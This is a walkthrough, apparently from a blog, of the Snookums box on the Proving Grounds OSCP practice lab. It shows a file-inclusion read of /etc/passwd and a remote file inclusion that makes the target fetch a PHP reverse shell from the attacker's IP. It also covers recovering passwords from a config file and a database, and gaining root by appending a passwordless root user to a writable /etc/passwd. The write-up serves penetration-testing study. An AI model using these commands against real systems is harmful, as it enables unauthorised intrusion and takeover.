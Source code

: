 ```yaml
---
layout: writeup
title: Snookums - Proving Grounds
date: 2024-07-22 13:32:20 +0300
description: A Writeup of the Snookums Box from Proving Grounds
image: # /assets/images/Flu/Flu_1.png
fig-caption: # Add figcaption (optional)
tags: [LainKusunagi, Linux]
---
```


Today I'll be doing a walkthrough for Snookums, an Intermediate Proving Grounds box I saw on the [LainKusanagi list of OSCP like machines](https://www.reddit.com/r/oscp/comments/1c8pzyz/lainkusanagi_list_of_oscp_like_machines/). As usual, I get started with an nmap scan and a quick search of the IP address in the URL bar in case there is a web server on port 80. And there is:

![Snookums_1.png](/assets/images/Snookums/Snookums_1.png){: .center-aligned width="600px"}

It looks like an image upload application, though I can't find any immediate way to upload it. I do a directory search and check the nmap scan results. 

```
Nmap scan report for 192.168.153.58
Host is up (0.21s latency).
Not shown: 993 filtered tcp ports (no-response)
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
80/tcp   open  http
111/tcp  open  rpcbind
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3306/tcp open  mysql
```

I couldn't get anywhere with 21 (FTP allowed anonymous logon by kept hanging), 445 (no interesting shares on SMB), or 3306 (couldn't access from my IP - more on that later). In the directory search, the only thing that really sticks out is the README.txt file. 

![Snookums_2.png](/assets/images/Snookums/Snookums_2.png){: .center-aligned width="600px"}

This comes in handy because it makes it easier to find exploits. For example, when searching "Simple PHP" exploit-db returns 74 entries, but "Simple PHP Photo" returns 0. "SimplePHPGal" however, returns one, an RFI exploit. I use it to check the contents of `etc/passwd` using this search: `http://192.168.153.58/image.php?img=/etc/passwd`. This shows us a `michael` user, but unfortunately I can't find any ssh keys or a local.txt in michael's /home folder. I also tried looking around the server for config files, but I couldn't find anything at all. I also tried including a reverse shell from my machine, but I couldn't get it to execute, in retrospect perhaps because of the port (4444): `http://192.168.153.58/image.php?img=http://192.168.45.235/ivan4444.php`

 I started googling around for more, and I found this [exploit](https://github.com/beauknowstech/SimplePHPGal-RCE.py). I couldn't get it working either, but eventually I realized that the target would download the reverse shell when I served it from port 80, but not from port 4444 or 8080. I figured there must be some kind of firewall, so I served it from port 80 and had it call back to port 3306, assuming that would work because there is a MySQL server on the target. That worked.

After gaining access to the machine, I searched around and used my favorite autoenum scripts, linpeas and lse, but I didn't see anything particularly interesting for the `apache` user I had the shell for. I also noticed that I couldn't read michael's home folder, suggesting that maybe I would need to switch to that user prior to switching to root. Otherwise switching to root would be the only way to get both flags, unusual for a lab like this. I started manually enumerating the /var folder to see if I could find anything, and I found this in `/var/www/html/db.php`:

![Snookums_3.png](/assets/images/Snookums/Snookums_3.png){: .center-aligned width="600px"}

A root password - nice. Of course I tried `su root` immediately, but it didn't work, so I checked out the mysql databse with`mysql -u root -p` using the password above. I enumerated the databases and tables, ultimately using table: `SimplePHPGal`to  `SELECT * FROM users;` and find this: 

![Snookums_4.png](/assets/images/Snookums/Snookums_4.png){: .center-aligned width="600px"}

We know michael is a user on the box, so that's a start. These look like base64, but when I decoded the password associated with the user, it still looked like base64, so I decoded it again and got what looked more like a password. See the second line in the top box is the decoded hash of the first line (shown in the second box):

![Snookums_5.png](/assets/images/Snookums/Snookums_5.png){: .center-aligned width="600px"}

We are able to use this to `su michael` and even ssh. This get us the local.txt flag from michael's home folder. Because I got a new user, I run linpeas and lse again. Linpeas shows that `/etc/passwd` is writable. 

![Snookums_6.png](/assets/images/Snookums/Snookums_6.png){: .center-aligned width="600px"}

We can use that to add a new user called `pop2`: `echo "pop2::0:0::/root:/bin/bash" >> /etc/passwd`. Then we can switch to pop2 and gain root access:

![Snookums_7.png](/assets/images/Snookums/Snookums_7.png){: .center-aligned width="600px"}

And boom, we're done. Lessons learned: I need to do a better job of using ports that I know the target can use. For some of these boxes it doesn't matter at all, but it's been the sole reason certain exploits haven't worked on a few of them, and it just eats up so much time. Other than that, it just shows that it's important to do manual enumeration and re-enumerate once you get a new user. I liked this one. 

Update: I went back and retried the initial exploit from exploit-db. It works if you use two different ports that the target can connect to. You have to use two different ports, one to serve the reverse shell, and a different one for the shell itself, because the web server executes the file automatically. You can't use port 80 to serve, then close the simple server, then execute the shell which uses port 80. Working example using the Ivan Sincek shell on port 80 served from port 3306:
`http://192.168.153.58/image.php?img=http://192.168.45.235:3306/ivan80.php
Glad I went back to confirm, now I know. 
